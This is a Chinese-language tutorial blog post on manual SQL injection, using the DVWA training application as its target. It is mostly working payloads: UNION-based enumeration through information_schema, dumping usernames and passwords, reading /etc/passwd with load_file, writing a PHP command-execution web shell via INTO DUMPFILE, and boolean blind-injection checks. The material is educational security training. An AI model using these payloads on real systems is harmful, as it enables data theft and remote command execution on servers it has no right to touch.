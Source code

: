 ```yaml
---
title: 手动漏洞挖掘（二）
date: 2018-01-27 15:25:03
categories: 安全
tags: 漏洞
---
```

SQL 注入
---
>服务端程序将用户输入参数作为查询条件，直接拼接SQL语句，并将查询结果返回给客户端浏览器
基于报错的检测方法

```
‘ 单引号，在输入框输入一个单引号，如果数据库sql语句是直接拼接的，就会识别不了指令而报错
%
()
```
基于布尔的检测--用来猜测服务器的SQL 语句结构
```
1' and '1'='1    /    1' and '1
1' and '1'='2    /    1' and '0
```
检测数据库表有多少个字段
```
' order by 数字--（空格） （--就是注释的意思，在--后面加空格才能使注释生效）
（例：如果user表只有4个字段，那么以下sql语句会报错：select * from user order by 5，
而以下sql语句正常：select * from user order by 4）
```
联合查询
```
' union select 1,2-- （空格）（还是需要在--后面加空格，由上面的注入得出该输入多少个数字，有4个字段就输：1,2,3,4，
这样就能得出查询的对应字段的名称）
' union select user(),version()-- （空格）（还是需要在--后面加空格，user(),version()都是数据库默认的函数，得到用户和版本号，
也可以根据版本号来看用的是什么数据库，比如MySql数据库版本号可能为5，但Oracle数据库版本号不可能为5,太久了，
其他数据库函数：database()--数据库名称）
ASCII转字符：char('字符')
连接字符串：CONCAT_WS(CHAR(32,58,32),user(),database(),version())
（连接字符串，就能把多个函数合并为一个，只占一个位置，CHAR(32,58,32)就是以空格：空格的格式分隔开来） 
```
针对MySQL数据库的一些SQL注入
>information_schema数据库是MySQL系统自带的数据库，它提供了数据库元数据的访问方式。感觉information_schema就像是MySQL实例的一个百科全书，记录了数据库当中大部分我们需要了结的信息，比如字符集，权限相关，数据库实体对象信息，外检约束，分区，压缩表，表信息，索引信息，参数，优化，锁和事物等等。通过information_schema我们可以窥透整个MySQL实例的运行情况，可以了结MySQL实例的基本信息，甚至优化调优，维护数据库等

简单来说，我们只要利用information_schema 就能知道数据库存放了什么表，表里的字段是什么
```
所有库所有表/统计每库中表的数量
' union select table_name,table_schema from information_schema.tables--+
' union select table_schema,count(*) from information_schema.tables group by table_schema--+
dvwa库中的表名
' union select table_name,table_schema from information_schema.tables where table_schema='dvwa'--+
查到表名users后就查表中的字段
' union select table_name,column_name from information_schema.columns where table_schema='dvwa' and table_name='users'--+
之后查询user，password的内容
' union select user,password from dvwa.users--+
' union select null,concat(user,0x3a,password) from users--+（只是格式变了）
```
读取文件
`' union select null,load_file('/etc/passwd')--+`
写入文件（利用 `into dumpfile`，这个指令还能把二进制还原，利用这个我们可以先把要传输的代码用二进制编码后传到数据库）
```
' union select null,"<?php passthru($_GET['cmd']); ?>" into DUMPFILE "/tmp/a.php"--+(tmp目录是所有用户都有权限读写执行)
cat shell.php | xxd -ps | tr -d '\n'（这句话就是把shell.php 下的内容转成十六进制，并且去掉换行符）
' union select null, (0x十六进制内容) into dumpfile "/tmp/a.php"--+（注意：get请求有最大长度限制，所以内容太多会导致注入失败）
```
保存数据库
`' union select null, concat(user,0x3a,password) from users into OUTFILE '/tmp/a.db'`
当数据库没有权限查看information_schema时，或者数据库限制不能使用 union,order by 查询
猜表有没有这个列，重复的工作可以用（Burp 的`intruder`用字典）
```
' and column is null--+ （column就是要替换的列，如果没有该列，就会报错，有的话就正常）
```
猜当前表表名（假如由上一步得出的其中一个列名为user）
` and table.user is null--+ （table就是要替换的表名）`
猜数据库的其他表
`' and (select count(*) from table)>0--+ （table就是要替换的表名）`
猜字段的内容
```
'  or user='admin
'  or user like '%a%
```
当数据库可写
`'; update users set user='hyx' where user='admin（两条语句先后执行）`

SQL盲注
---
 >不显示数据库内建的报错信息，替换为通用的错误提示，sql注入将无法依据报错信息判断注入语句的执行结果，即 盲

思路：既然无法基于报错信息判断结果，就基于逻辑真假的不同结果判断
```
1' and 1=1
1' and 1=2
1' order by 5--+（如果sql语句有两个字段的话为假）
1' order by 2--+（如果sql语句有两个字段的话为真）
```
如果有sql注入漏洞的话，之后的操作都合上一篇的指令差不多
